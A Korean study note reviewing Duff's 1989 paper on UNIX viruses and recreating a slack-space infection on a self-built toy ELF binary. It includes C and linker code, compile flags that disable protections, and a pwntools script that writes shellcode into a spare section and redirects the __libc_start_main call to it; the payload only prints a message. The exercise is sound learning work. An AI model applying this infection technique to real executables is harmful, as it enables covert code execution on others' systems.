


---
{"dg-publish":true,"permalink":"/kr/기록/논문/논문 리뷰 및 Slack Space를 이용한 악성 코드 실습 - Experience with Viruses on UNIX Systems/","tags":["practice","paper-review","malware","TODO/translate"],"created":"2023-08-08","updated":"2024-04-10"}
---


# Reference
[[kr/기록/논문/assets/Slack Space를 이용한 악성 코드/assets/Reference/Experience with Viruses.pdf| Duff, Tom. "Experience with viruses on UNIX systems." _Computing Systems_ 2.2 (1989): 155-171.]]

[AhnLab | 보안 이슈](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=17907)

# 내용
![[Pasted image 20240410124433.png|200|center]]

파일 시스템 공부 중, 슬랙 공간을 바이러스가 있을 수 있다는 글이 많이 보여 조사한 결과를 보고.

슬랙 공간은 파일 시스템의 가장 작은 논리적 공간의 남는 공간을 의미한다.

흔히, 메모리 단편화가 정해진 Fragment를 100% 활용할 수 없어 생기는 불가피한 빈 공간에 대한 이야기인 것 처럼, 동일한 개념이라고 생각하면 편하다.

즉 파일 시스템에서 한 논리적 공간(CS에서 보통 클러스터라 불리우는)을 4096 bytes 라고 할 때.

2000 bytes의 파일을 쓸 경우, 나머지 낭비되는 2096 bytes를 슬랙 공간(Slack Space) 이라고 한다.

파일 시스템을 조사하면 자주 언급되며, 이 공간에 악성 코드를 넣어 놓을 수 있다는 언급이 자주 보인다.

하지만 나의 경우, 위와 같은 슬랙 공간을 이용한 악성 코드가 어떤식으로 동작하는 것인지, 쉽게 예상 되지 않아 인터넷을 조사하였다.

조사한 결과, **Ninth edition VAX UNIX** 운영체제의 특이한 동작을 이용한 악성 코드에 대한 논문이 있었다.

## 예상 내용(조사 전 예상했던 악성 코드의 흐름)

논문의 내용은 운영체제의 동작을 이용한 악성 코드이다.

논문을 읽기 전에는 2가지 정도의 동작 방식을 이용한 악성 코드가 있지 않을까? 하고 생각하였다.

1. 악성 프로그램이 존재하고, 그 프로그램이 사용하는 데이터를 슬랙에 숨기는 형태
2. 악성 프로그램의 코드가 슬랙 내부에 존재하는 형태

위의 2가지 경우 이외에는 사실 무언가 쓸모있는 형태의 악성 코드가 없지 않을까하고 조사를 진행하였다.

일단 최신 발견된 바이러스 중에는 슬랙을 이용한 바이러스에 대한 정보는 찾을 수 없었다.(사실 내가 생각해도 왜 이런 짓을 할까 싶다;;)

논문의 경우는 2번째 케이스에 가까운데 위와 같은 형태도 실습을 진행하는 과정에서 사실상 불가능하지 않을까 하는 생각이 들었다.

왜냐하면, 2번째 경우가 실질적으로 힘을 발휘하기 위해서는 바이너리의 .text영역에 대한 조작이 필요한데 컴파일이 완료된 바이너리를 대상으로 섹션을 조작하고 그 사이에 악성 코드에 대한 정보를 삽입하는 것이 쉬운일은 아닐 것이라고 생각했기 때문이다.

하지만, 그와 별개로 이번에 실습한 악성코드에 대한 아이디어와 흐름 자체는 굉장히 위협적일 수 있다고 생각하였다.

## 논문에서 소개하는 코드

논문에서는 위와 같은 형태의 악성 코드를 제안한다. (논문에서 코드를 작성하였다고 했지만 워낙 옛날 논문이어서 코드는 확인 불가능 하였다)

> [!info] 슬랙 공간에 의해서 발생하는 .text 섹션에 악성코드를 삽입하여 다음과 같은 흐름을 유도한다

정상 코드의 경우



악성 코드에 의해 조작된 경우



즉 자신이 유도한 코드를 실행 시킨 뒤 이용자는 그대로 원래 프로그램을 실행시키는 형식이다.

개념상으로는 조작이 쉽게 가능하다면(특히 쓰기 권한을 가진 경우), 쉽게 루트 권한을 획득할 수 있는 강력한 기법이다.

하지만, 현재 리눅스 등에서 쉽게 사용할 수 있는 기법은 아니고, 적용 가능성 또한 굉장히 낮다;;;
# 실습

실습은 다음과 같은 프로그램이


다음과 같은 동작을 하도록 수정하였다.


-------------
## 실습 흐름

```c
#include <stdio.h>

  

unsigned char __attribute__((section(".Slack"))) WOW_Slack_e_da[512] __attribute__((aligned(16))) = " \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀\
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣶⣶⣿⢟⣓⣒⣲⠶⢤⣄⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡏⢸⣿⣿⠩⠍⣳⣮⢻⣿⣶⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⢸⣿⡿⠿⠿⠿⢋⣼⣿⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠼⠿⠿⠷⠬⢭⣤⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⠿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡾⣋⣭⠭⠽⠿⠻⢿⣿⣿⣶⣶⣶⣦⣤⣤⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣀⣼⢏⡾⠋⠀⠀⠀⠀⠀⠀⢻⣿⡄⠉⠛⠛⠛⠛⢛⣿⣿⣷⣶⣤⣄⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⡟⡸⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⡇⠀⠀⠀⠀⣰⣿⠏⠁⠀⠈⠉⠓⢦⡍⢶⡄⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⣿⡇⢡⠀⠀⠀⠀⢼⣿⡇⠀⠀⣿⠃⠀⠀⠀⠀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠹⡆⢿⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡌⠂⠀⠀⠀⠈⠉⠀⢀⣼⡿⠀⠀⠀⠀⢸⣿⠀⠀⣴⣶⡄⠀⠀⠀⠀⣿⢸⣧⣄⡀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⢦⣄⣀⣀⣀⣤⣴⡿⠋⠀⠀⠀⠀⠀⠸⣿⡄⠀⠙⠛⠀⠀⠀⠀⢀⢇⣿⣿⣿⣿⡗⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠉⠉⠉⠀⣷⣴⣦⣶⣶⣤⣀⠀⢸⣿⣄⡀⠀⠀⠀⣀⠴⣫⣾⡟⠀⠛⠛⠃⠀⠀⠀⠀ \
⠀⠀⠀⢀⠄⠐⢠⠎⢻⠀⠀⢸⣧⠀⠀⠀⠀⠀⠀⠀⠀⠠⠘⣿⣿⣿⣿⣿⣿⡿⢋⠀⠙⠻⠷⣶⣶⣶⠾⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⣾⠀⣾⣦⡀⠸⣿⣦⠀⠀⠀⠀⠀⠀⠀⠘⡀⠘⢿⣿⣿⡿⢋⣠⠎⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠠⣀⣿⣀⣘⣿⣿⣷⣄⡁⠑⢄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠴⠟⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠁⠜⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠉⠙⠻⣿⣿⣿⣿⣿⣶⣄⡑⢄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣤⣾⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠻⣿⣿⣿⣿⣿⣷⣿⣶⣄⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡀⠄⠂⠉⠉⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣶⣶⣦⣤⣶⣶⣶⣍⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣻⣿⣿⣿⣿⣿⣿⣿⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⣿⣿⣿⣿⣿⣿⣦⣤⣤⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡏⠻⢿⣿⣿⣿⣿⣷⡤⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠈⠛⢿⣿⣟⠀⠀⠈⠀⠀⣁⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡀⠀⠀⠀⠀⠉⠻⣷⣤⣴⣶⣿⣿⡇⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣇⠀⠀⠀⠀⠀⠀⠈⠛⠿⣿⡿⠟⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⣿⣿⣿⣿⣿⣿⣿⡿⠿⠿⢿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠲⠾⢿⣿⣿⣿⣯⠀⠀⠀⠀⠀⠈⠛⣿⣿⣿⣿⠿⠒⠊⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠄⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠉⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ \
";

int main(){
printf("Happy Happy Happy!! %c", WOW_Slack_e_da[0]);

}
```

다음 코드를 컴파일


슬랙 공간을 흉내낸 영역을 만들기위해서 간단하게 링크스크립트와 옵션을 통한 컴파일이 필요하다.

코드는 아래와 같다.
```ld
SECTIONS
{
	.text.Slack :
	{
		*(SORT_BY_NAME(.Slack*))
	}
}
INSERT AFTER .text;

```
```sh
gcc -T linker.ld -fno-stack-protector -z execstack -no-pie test.c -o prob
```

컴파일 한 파일 확인


파일을 다음 코드를 이용해 감염


```python
from pwn import *

from six import b

  

#virus = b"\x48\xc7\xc0\x78\x11\x40\x00\x48\x83\xc0\x2e\x48\x89\xc6\x48\xc7\xc0\x01\x00\x00\x00\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc2\x0c\x00\x00\x00\x0f\x05\x48\xc7\xc0\x3c\x00\x00\x00\x48\xc7\xc7\x00\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x57\x24\x52\x0f\x8c\x00\x00\x00\x00"

  

virus = b"\x48\xc7\xc0\x78\x11\x40\x00\x48\x83\xc0\x2e\x48\x89\xc6\x48\xc7\xc0\x01\x00\x00\x00\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc2\x0e\x00\x00\x00\x0f\x05\xff\x15\x00\x00\x00\x00\x50\x10\x40\x00\x00\x00\x00\x00\x55\x6e\x48\x61\x70\x70\x79\x20\x0a\x00"

  

target = 'prob'

JUMPOFFSET = 0x0

e = ELF(target)

e.disable_nx()

text = e.get_section_by_name('.text')

  

slack = e.get_section_by_name('.text.Slack')

  

virus = int(slack.header.sh_addr + JUMPOFFSET + 8).to_bytes(8, byteorder='little') + virus

  

if len(slack.data()) >= len(virus):

# write virus code in empty space

print('data before: ', slack.data())

with open(target, 'rb+') as f:

f.seek(slack.header.sh_offset)

print('Wrote: ', f.write(virus))

  

# manipulate .text area

entry_offset = e.entry

  

code = text.data()

# find call __libc_main_start asm

call_offset = code.find(b'\xff\x15')

  

print('text: ', hex(text.header.sh_addr))

print('entry: ', hex(e.entry), ' seek: ', hex(e.get_section_by_name('.text').header.sh_addr))

print('call_offset: ', call_offset, ' seek: ', hex(entry_offset + call_offset))

  

with open(target, 'r+b') as f:

f.seek(entry_offset + call_offset - 0x400000)

shell = b'\xff\x15' + (slack.header.sh_addr - entry_offset - call_offset - 6 + JUMPOFFSET).to_bytes(length = 4, byteorder='little', signed=True)

print('shell: ', hex(int.from_bytes(shell, 'big')))

f.write(shell)
```


UnHappy 한 출력이 되도록 조작


## 실습 설명

일단 이번 실습의 경우 인위적은 섹션을 생성하여 그곳을 슬랙 공간으로 가정하고 진행하였다.

즉 .text 영역 아래에 인위적인 코드를 삽입함과 동시에 \_\_libc\_main\_start  함수의 점프 주소를 main이 아닌 .text.Slack 영역의 코드로 바꿔치기 하였다.

.text.Slack 영역에 내가 인위적으로 삽입한 코드는 다음과 같다.(완전히 같지 않다 흐름만 참조. 진짜 삽입한 코드는 파이썬 코드에 존재)

```asm
section .text
        global _start

_start:
		// Print String 
        mov rax, 0x401178
        add rax, 0x2e
        mov rsi, rax
        // mov Address of String BELOW
        mov rax, 1
        mov rdi, 1
        mov rdx, 13
        syscall
        
        mov rax, 60
        mov rdi, 0
        syscall

		// BELOW is String
        push 0x6f6c6c65
        push rdi
        and al, 0x52
        jl 0x6e
```

삽입한 코드의 마지막은 다시 \_\_libc\_start\_main 함수로 Jump을 진행한다.


# 후기

간단하게 진행하려고 했던 실습에 꾀나 많은 시간과 노력이 들어버렸다. 

돌이켜 생각하니 지식의 부족이 그 원인이었던 것 같다.

부족한 만큼 새로운 것을 많이 접해볼 수 있었던 좋은 시간이었지만, 조금 더 실력을 높여서 이런 간단한 실습은 빠르게 진행할 수 있도록 하자.


# Paper Review
흥미 있으면 읽어보기